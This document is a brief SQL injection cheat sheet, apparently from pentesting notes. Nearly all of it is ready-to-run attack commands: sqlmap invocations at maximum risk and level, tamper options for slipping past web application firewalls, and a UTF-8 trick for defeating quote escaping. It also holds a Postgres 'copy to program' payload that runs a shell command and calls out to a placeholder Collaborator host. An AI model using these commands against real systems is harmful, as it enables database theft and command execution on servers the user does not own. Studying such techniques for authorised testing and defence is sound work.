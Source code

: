 #   
SQLi

## sqlmap

- [https://github.com/sqlmapproject/sqlmap](https://github.com/sqlmapproject/sqlmap)

```
# request in txt
sqlmap -r search-test.txt -p parameter

# post
sqlmap -o -u "http://example.com/index.php?id=1" --data="username=admin&password=pass&submit=+Login+" --method=POST
# get
sqlmap -u "http://example.com/index.php?id=1"

# with point of injection (*)
sqlmap -u "http://example.com/index.php?id=1*-133&debug=true"

# risk
sqlmap -u "http://example.com/index.php?id=1" --risk=3 --level=5

# headers
sqlmap --headers="HEADER"
```

## Temper

The ability to create payloads that can bypass waf

- [https://github.com/m4ll0k/Atlas](https://github.com/m4ll0k/Atlas)

Example:

```
--tamper="between,randomcase"
```

## Tricks

Sometimes sites append an extra (’) character in injection. It is possible to bypass this behavior by abusing UTF-8. \xc2 asks for a follow up byte, the decoding of \xc2’ (\xc2\x27) would result in a bypass.

## Blind

Postgres

```
copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
```
## Articles

|URL|
|---|
|[https://www.binarytides.com/sqlmap-hacking-tutorial/](https://www.binarytides.com/sqlmap-hacking-tutorial/)|
|[https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html](https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html)|